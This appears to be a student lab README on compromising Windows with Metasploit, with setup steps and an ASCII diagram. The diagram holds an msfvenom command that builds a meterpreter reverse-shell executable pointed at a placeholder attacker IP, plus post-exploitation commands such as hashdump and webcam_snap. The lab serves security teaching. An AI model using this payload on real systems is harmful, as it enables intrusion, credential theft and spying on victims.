 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By
#### Name: Sai Vishal D
#### Register Number:212223230180

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
```